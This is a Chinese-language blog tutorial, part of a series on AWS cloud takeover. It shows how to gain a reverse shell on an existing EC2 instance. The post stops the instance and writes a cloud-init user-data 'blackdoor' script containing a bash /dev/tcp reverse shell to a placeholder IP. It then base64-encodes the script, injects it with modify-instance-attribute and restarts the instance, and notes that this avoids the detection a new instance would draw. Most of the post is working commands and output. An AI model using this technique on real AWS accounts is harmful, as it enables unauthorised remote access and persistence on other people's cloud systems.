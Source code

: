 ```yaml
---
author: Sunny Tsai
title: "[Day 27] 天堂雲端 - reverse shell via credential 2"
date: 2023-10-10
math: true
tags: [
    "aws",
    "reverse shell"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-天堂雲端之從開始到接管"]
---
```

建立新的EC2 instance做reverse shell並不一直是一個好的主意，首先，新啟動一個EC2很容易被發現。

# 利用現有instance
必須要有的權限：
> ec2:DescribeInstances
> ec2:ModifyInstanceAttribute

首先，先暫停ec2，沒有暫停不能修改
```shell
> aws ec2 stop-instances --instance-ids {EC2_INSTANCE_IP}
```

沒暫停的Output
```shell
An error occurred (IncorrectInstanceState) when calling the ModifyInstanceAttribute operation: The instance 'i-XXXXXXXXXXXX' is not in the 'stopped' state.
```

成功暫停的Output
```json
{
    "StoppingInstances": [
        {
            "CurrentState": {
                "Code": 64,
                "Name": "stopping"
            },
            "InstanceId": "i-XXXXXXXXXXXX",
            "PreviousState": {
                "Code": 16,
                "Name": "running"
            }
        }
    ]
}
```

## Build blackdoor.sh
```bash
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
echo "Hello World" >> /home/ubuntu/hello.txt   # 這行是測試用的
/bin/bash -i >& /dev/tcp/IP/PORT 0>&1    # Reverse shell範例

--//

```

### base64 encode
```shell
> base64 -i blackdoor.sh > blackdoor_encoded.sh  # 這是Mac寫法，其他作業系統不要抄錯了
```

## Modify instance attribute
```shell
> aws ec2 modify-instance-attribute \
    --instance-id i-XXXXXXXXXXXX \
    --attribute userData \
    --value file://blackdoor_encoded.sh
```

## Start EC2 instance
```shell
> aws ec2 start-instances --instance-ids i-09d20a0b2b49d77cc
```

Output
```json
{
    "StartingInstances": [
        {
            "CurrentState": {
                "Code": 0,
                "Name": "pending"
            },
            "InstanceId": "i-XXXXXXXXXX",
            "PreviousState": {
                "Code": 80,
                "Name": "stopped"
            }
        }
    ]
}
```

等狀態是`執行中`或是`running`的時候就可以進去EC2查看

# 檢查
`/var/log/cloud-init-output.log`有沒有出現錯誤
